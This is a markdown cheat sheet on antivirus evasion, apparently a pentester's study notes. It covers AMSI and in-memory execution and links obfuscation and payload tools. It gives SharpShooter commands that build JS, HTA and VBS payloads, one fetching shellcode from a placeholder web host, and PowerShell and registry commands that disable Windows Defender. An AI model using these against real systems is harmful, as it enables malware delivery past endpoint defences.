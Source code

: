 # AV Evasion   
## Notes 
2 primary types: 
on disk: file saved on target then executed 
in memory: preferred for evasion, import script into memory and then executed.  
Windows AMSI (Anti Malware Scan Interface): evals commands at runtime, scans scripts as they are imported into memory, makes evasion harder. VBA, Powershell, JavaScript. 
 AV agnostic: API any anti-virus product can use. "Identify fileless threats - at runtime most of obfuscation is removed" defeat: obfuscate code. 


## Tools     
Testing: [Windows 10 developer iso](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)  
[Other Windows iso files](https://the-eye.eu/public/) 

[Invoke-Obfuscation powershell script](https://github.com/danielbohannon/Invoke-Obfuscation)  
[Invoke-bfuscation Usage Guide](https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide)  
https://github.com/tokyoneon/Chimera ( bypassing AMSI and signature based detection )   
https://github.com/persianhydra/Xeexe-TopAntivirusEvasion   
https://github.com/BC-SECURITY/Empire/blob/master/empire/server/common/bypasses.py  

[Veil](https://github.com/Veil-Framework/Veil) 
[Shellter](https://www.shellterproject.com/download/)  
[Donut](https://github.com/TheWover/donut) 
[Vulcan](https://github.com/praetorian-code/vulcan) 
[Scarecrow](https://github.com/optiv/ScareCrow)  

## Sharpshooter
[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)   

Javascript Payload Stageless:   

    SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

    SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

    SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4


## Commands 
Turning off Windows Defender 

    Set-MpPreference -DisableRealtimeMonitoring $true   

Need to run Powershell as admin and reboot after running command to turn off Windows Defender indefinetly: 

    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -name disableantispyware -value 1 -Force


View Windows Defender logs   

    Get-WinEvent 'Microsoft-Windows-Windows Defender/Operational' MaxEvents 10 | Where-Object Id -e 1116 | Format-List 


# Resources  
## Cheat sheets 
https://github.com/sinfulz/JustEvadeBro   
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

## Workshops 
https://github.com/BC-SECURITY/Beginners-Guide-to-Obfuscation 



